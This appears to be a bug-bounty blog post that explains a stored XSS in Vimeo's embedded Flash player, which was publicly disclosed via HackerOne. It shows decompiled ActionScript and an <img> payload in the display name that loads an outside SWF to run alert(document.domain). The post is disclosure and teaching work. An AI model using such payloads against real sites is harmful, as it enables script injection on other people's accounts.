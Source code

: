 ```yaml
---
layout: post
title: "XSSing Flash without user interaction"
---
```

_Just to clarify: the point of this post is to understand why is better to not use `allowscriptaccess` set to `always` when embedding a Flash file in a document, and it's not about XSSing Flash loading a file directly in the browser because in that case the third party files are sandboxed._

Looking for bugs on [Vimeo](https://hackerone.com/vimeo) I found out that they embed the Flash file <https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf> with `allowscriptaccess` set to `always` at this endpoint <https://vimeo.com/hubnut/user/user36690798>. This Flash file is used to show the videos uploaded by the user indicated (_user36690798_ in this case).

{% highlight html %}
<!-- code that embeds Flash file -->
<object width="100%" height="100%">
...
<param name="allowscriptaccess" value="always" />
...
<param name="movie" value="https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf?v=1.0.0" />
<embed src="https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf?..." type="application/x-shockwave-flash" ... allowscriptaccess="always" ...></embed>
</object>
{% endhighlight %}

If you [look at the source of the endpoint](view-source:https://vimeo.com/hubnut/user/user36690798) you notice that there is a `var config` which contains information about the user, including the name (which appears as the value of `display_name`). This variable is loaded by the Flash file who puts the value of `display_name` in a `TextField()` using the setter `.text` and, because they apply a style sheet to the `TextField()`, the content [is interpreted as HTML](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#text) like using `.htmlText`.

{% highlight js %}
// An extract of the code of the class _Carousel_ from the file _hubnut.swf_
...
this.selectedLabel.styleSheet = _loc2_;
...
// here "display_name" appears as "_loc4_.owner.display_name"
_loc13_ = _loc13_ + (_loc4_.owner.url?"<h2>by <a href=\"//" + this.data.request.vimeo_url + "/" + _loc4_.owner.url_name + "\" target=\"_blank\">" + _loc4_.owner.display_name + "</a></h2>":"<h2>by <strong>" + _loc4_.owner.display_name + "</strong></h2>");
...
this.selectedLabel.text = _loc13_;
...
{% endhighlight %}

Now, the value of `display_name` is being encoded as HTML entities, but it was not the case 2 months ago (I think that they were escaping as JSON, for instance `/` was being escaped as `\/`). So, it was possible to put HTML code but Flash doesn't interpret every HTML tag as valid. Which one is the widely used for this case? `<a>`, yes, but the problem is that you have a limit of 32 characters for your name in Vimeo and for me wasn't enough to make a valid proof of concept. With this scenario I decided to read [which HTML tags are interpreted by Flash](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#htmlText) and noticed this about the `<img>` tag:

> src: Specifies the URL to an image or SWF file

Sounds promising! Anyway, at first I thought that maybe Flash loaded the file in a sandbox to disallow execution of Javascript code but I continued the testing. I uploaded a Flash file to my server which executed `ExternalInterface.call("alert(document.domain)");` and changed my name to `<img src="//u00f1.xyz/xss.swf">`. Reloaded <https://vimeo.com/hubnut/user/user36690798> and for my surprise `alert(document.domain)` was executed on **vimeo.com** without user interaction.

After successfully execute Javascript using an `<img>` tag, I went to check if it was possible to do the same but in cases where you can provide the URL of an image that is shown using Flash, and I confirmed that it is possible. What I mean is that if, for example, Vimeo allowed to put any URL as the thumbnail of the video, you could provide an URL to a Flash file of yours with Javascript code and it would probably load the file and execute the Javascript code.

You can test the issue using the `<img>` tag [here](http://stefanocoding.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fstefanocoding%2fstefanocoding.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=true&asObject=false) and the issue when you can provide the URL of an image [here](http://stefanocoding.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fstefanocoding%2fstefanocoding.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=false&asObject=false).
This code is available at <https://github.com/stefanocoding/stefanocoding.github.io/tree/master/code>.  

The report [is publicly disclosed on HackerOne](https://hackerone.com/reports/87577) thanks to Vimeo.
